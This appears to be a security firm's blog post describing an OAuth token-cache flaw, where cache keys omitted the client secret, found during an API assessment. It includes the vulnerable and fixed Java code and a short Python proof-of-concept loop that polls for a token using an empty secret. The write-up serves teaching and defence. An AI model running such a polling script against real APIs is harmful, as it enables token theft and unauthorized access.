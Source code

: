 ```yaml
---
layout: single
title:  "AppSec Travels: Part 1"
date:   2023-01-13 16:29:00 -0600
categories: posts research vulnerabilities
tags: appsec edge-case vulnerability research review findings 
permalink: /AppSec-Travels-1-Function-Overload/
author: Justin Larson
author_profile: true
classes: wide
---
```


# <span style="color:red">Token Caching</span>

This is our first blog of AppSec Travels where we walk you through interesting findings we've discovered in vulnerability assessments. This will be on ongoing series without a regular cadence because frankly some assessments are perfunctory security checks lacking in exciting findings and we sort of doubt anyone wants to read findings write-ups on lack of _HTTPONLY_ flags. As a consequence, AppSec travels will be reserved for findings that are interesting to us and hopefully to you as well. We don't claim that these findings will be in every assessment or that they need to added to your general security checklists, but hopefully they help in thinking differently about your individual approach to security testing. We do _a lot_ of secure code reviews here at Redpoint Security so most of these blog posts will focus on code along with dynamic testing. Some names and data have been changed to protect the innocent (and our customers' NDAs).  

## Token Caching in the Wild

Recently we were tasked with testing an API, a simple, straight-forward assessment with only a handful endpoints. With such a limited scope, there wasn't much to go wrong, and we didn't find anything until the last day.[^1] There was one endpoint that we were testing `/oauth/token` that took a Client ID and Client Secret as the params to generate an access token used for authentication to the API. We were using Burp Suite's Repeater tab when we discovered that if you send a request with a valid Client ID and invalid Client Secret right after a valid request with the correct Client ID and Secret that the application would return a valid access token. 

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-1.png' }})
_Valid Request with correct credentials_

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-2.png' }})
_Request lacking `client_secret` but application still returns valid `access_token`_

This was behavior that I had never seen before, and, if you waited more than 10 seconds to send your invalid credential request, the application would respond with a failed authentication attempt. This was a hybrid assessment so we had access to the code which is always helpful in understanding what is going on under the hood. The code implemented an insecure decorator that only used the Client ID in order to access the token cache. 


```java
@RequestMapping(value = "/oauth/token", method = RequestMethod.POST)
  @ResponseStatus(HttpStatus.OK)
  public Mono<AuthTokenResponse> login(@RequestBody AuthTokenRequest authTokenRequest) {
    return Mono.just(authTokenCache.retrieveAccessToken(authTokenRequest.getClientId(), authTokenRequest.getClientSecret(), audience,
      AuthStrategy.AUTH0));
  }
```
_Request mapping for `/oauth/token` follows to `retrieveAccessToken`_

```java
  @Cacheable(value = TOKEN_CACHE, keyGenerator = "apiTokenKeyGenerator")
  public AuthTokenResponse retrieveAccessToken(String clientId, String clientSecret, String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    return authClients.get(authStrategy).retrieveAuthToken(audience, clientId, clientSecret).getBody();
  }
}
```
The `retrieveAccessToken` function has a decorator that looks in the token cache for a valid access token for the client, the only problem is–as we see in the code below–the `generate` function only uses a system-generated `audience` plus `params[0]` which is comprised solely of the `client_id` to generate a key for the token. 

```java
public class ApiTokenKeyGenerator implements KeyGenerator {
  private final String audience;

  public ApiTokenKeyGenerator(String audience) {
    this.audience = audience;
  }

  @Override
  public Object generate(Object target, Method method, Object... params) {
    return "token-cache:" + audience + ":" + params[0];
  }
}
```
In order to demonstrate this attack we wrote a simple python script that attempted the `/oauth/token` request over and over again without a valid Client Secret. Then we logged in using Postman and the attack script would retrieve the access token, print it to the screen and stop. 

```python 
import requests
import json
import time

CLIENT_ID="<CLIENT_ID>"

def attack():
    url = "<URL>"
    headers = {"Content-Type": "application/json", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Accept": "*/*", "Accept-Encoding": "gzip, deflate"}
    json={"client_id": CLIENT_ID, "client_secret": ""}
    rsp=requests.post(url, headers=headers, json=json).text
    print(rsp)
    if 'access_token' in rsp:
        return True
    return False


success=False
while not success:
    success=attack()
    time.sleep(.1)
print("[!]Vulnerable to Token Theft")
```                  

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-3.png' }})

To sum up the vulnerability, the application was using a token cache with insecure key generation for accessing the token. I do have to admit that initially when we reported this vulnerability we thought it had to do with an overloaded function, there were 2 functions named `retrieveAccessToken`, one of them took 2 parameters(see below) and the other (up above) took 4. We thought the request was reaching the code below and the token was being returned with `return authTokenResponse.accessToken();` but after some more digging and seeing the code fix, we realized we were wrong about the overloaded function. Hey, we aren't perfect but we were in the right ballpark. 

```java
@Cacheable(value = TOKEN_CACHE, keyGenerator = "tokenKeyGenerator")
  public String retrieveAccessToken(String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    AuthTokenResponse authTokenResponse = authClients.get(authStrategy).retrieveAuthToken(audience).getBody();
    if (authTokenResponse != null) {
      return authTokenResponse.accessToken();
    } else {
      log.error("Failed to get access token for audience {} and auth strategy {}", audience, authStrategy);
      return null;
    }
  }
```

The fix included using a hash of the `client_secret` as well as using the `client_id`.  

```java
 @Override
  public Object generate(Object target, Method method, Object... params) {
    String clientId = (String) params[0];
    String clientSecret = (String) params[1];
    String hashedSecret;
    try {
      MessageDigest md = MessageDigest.getInstance(hashAlgorithm);
      md.update(clientSecret.getBytes());
      hashedSecret = DatatypeConverter.printHexBinary(md.digest()).toUpperCase();
    } catch (NoSuchAlgorithmException e) {
      log.error("Unable to create cache key for {}", clientId);
      throw new RuntimeException(e);
    }
    return "token-cache:" + audience + ":" + clientId + ":" + hashedSecret;
  }
}
```

It makes sense to talk through the likelihood of a successful attack happening in this instance. An attacker would have had needed to have a valid `client_id`, in this case the `client_id` was a 32 character long string of numbers and lower and uppercase letters so guessing a `client_id` wasn't happening. There also wasn't a self registration for this application and no other endpoint leaked `client_ids` so getting a valid `client_id` would have been highly unlikely or nearly impossible. In any case, we found it an interesting edge case of unexpected application behavior.

Thanks for coming along on our first journey in AppSec Travels. Stay tuned for our next excursion into the unexpected world of Application Security and Code Review.

[^1]:Last-day findings are a thing. See Ken Kantzer's point #3 in this write-up on Secure Code Review [here](https://kenkantzer.com/learnings-from-5-years-of-tech-startup-code-audits/)